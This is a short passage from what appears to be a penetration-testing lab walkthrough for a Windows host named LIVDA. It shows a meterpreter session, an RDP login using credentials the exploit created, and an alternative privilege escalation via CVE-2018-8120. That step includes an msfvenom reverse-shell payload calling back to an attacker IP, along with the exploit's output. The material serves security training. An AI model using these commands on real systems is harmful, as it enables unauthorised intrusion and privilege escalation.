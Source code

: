```
Process 2868 created.
meterpreter >
```

After the exploit has completed, we can connect to remote desktop with `test123:test123`.

```
kali@kali:~$ rdesktop 192.168.68.46 -u test123 -p test123
Autoselecting keyboard map 'en-us' from locale

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=LIVDA

 2. Certificate has expired.

     Valid to: Tue Sep 22 12:57:25 2020



Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=LIVDA
     Issuer: CN=LIVDA
 Valid From: Mon Mar 23 12:57:25 2020
         To: Tue Sep 22 12:57:25 2020

  Certificate fingerprints:

       sha1: 92f40781ed691eb1f4a5463fa1c7a36661dce8a0
     sha256: 3556cd6b7171d75fa2a737ceca4a69ba77583af6177683dbe099ad3dded93aa5


Do you trust this certificate (yes/no)? yes
Connection established using SSL.
Protocol(warning): process_pdu_logon(), Unhandled login infotype 1
```

Alternative privesc:

https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.216 LPORT=4443 -f exe -o rev1.exe

C:\TEST>.\x86.exe rev1.exe
.\x86.exe rev1.exe
CVE-2018-8120 exploit by @unamer(https://github.com/unamer)
[+] Get manager at ff52f5e0,worker at ff52f3b8
[+] Triggering vulnerability...
[+] Overwriting...8170241c

```

Build a reverse shell